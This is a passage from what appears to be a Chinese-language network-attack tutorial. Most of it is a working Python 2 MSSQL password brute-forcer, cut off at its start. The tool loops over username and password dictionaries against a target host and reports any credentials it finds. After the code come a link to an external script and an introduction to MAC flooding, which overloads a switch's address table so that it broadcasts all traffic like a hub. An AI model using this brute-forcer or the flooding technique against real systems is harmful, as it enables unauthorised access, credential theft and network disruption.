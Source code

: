 ```python
    return 1
def DictAttck(Host,UsernameFile,PasswordFile):
    UserHandle = open(UsernameFile)
    for user in UserHandle:
        PwdHandle = open(PasswordFile)
        for pwd in PwdHandle:
            print Fore.RED + "[***] " + Style.RESET_ALL + "Try to UserName:%s  Password:%s"%(user,pwd)
            if chekpassword(Host,user,pwd) == 1:
                print Fore.GREEN + "[OK] " + Style.RESET_ALL + "Got password. Username:%s Password:%s" %(user,pwd)
                break

def FixUserAttack(Host,Username,PasswordFile):
    PwdHandle = open(PasswordFile)
    for line in PwdHandle:
        print Fore.RED + "[***] " + Style.RESET_ALL + "Try to UserName:%s  Password:%s"%(Username,line)
        if chekpassword(Host,Username,line) == 1:
            print Fore.GREEN + "[OK] " + Style.RESET_ALL + "Got password. Username:%s Password:%s" %(Username,line)
            break
def main():
    parser = argparse.ArgumentParser(description='Attack mssql server password by CRoot')
    parser.add_argument('-s',metavar='HostAddr',help='Set host address')
    parser.add_argument('-l',metavar='Username',help='FixUser to attack')
    parser.add_argument('-L',metavar='Username File',help='Use username dictionary to attach')
    parser.add_argument('-P',metavar='Password File',help='Use password dictionary to attach')
    option = parser.parse_args()

    if option.s == None:
        parser.print_help()
        exit(0)

    if option.l != None and option.P != None:
        FixUserAttack(option.s,option.l,option.P)
    elif option.L != None and option.P != None:
        DictAttck(option.s,option.L,option.P)
    else:
        parser.print_help()



if __name__ == '__main__':
    main()
```
[具体看着](http://xcroot.com/HelloWord/383.sh)


## MAC FLOODING
交换机和其他计算机一样，具有有限的内存，交换机中存放MAC地址信息的表格也同样如此，该表格记录哪个MAC地址对应哪个端口及其内部的ARP缓存。当交换机的缓冲区溢出时，它们的反应就会有些古怪。这将会导致交换机拒绝服务，以至于放弃交换行为而变得像正常的集线器。在集线器模式下，整体的高流量不会是你遇到的唯一问题，因此在没有附加操作下，所有已连接的计算机都会接收到完整的流量。你应该测试一下的你的交换机在这种意外情况下是如何反应的，接下来的脚本就可以做到这一点。它会产生随机的MAC地址，并将它们发送到你的交换机中，直到交换机的缓冲区被填满。
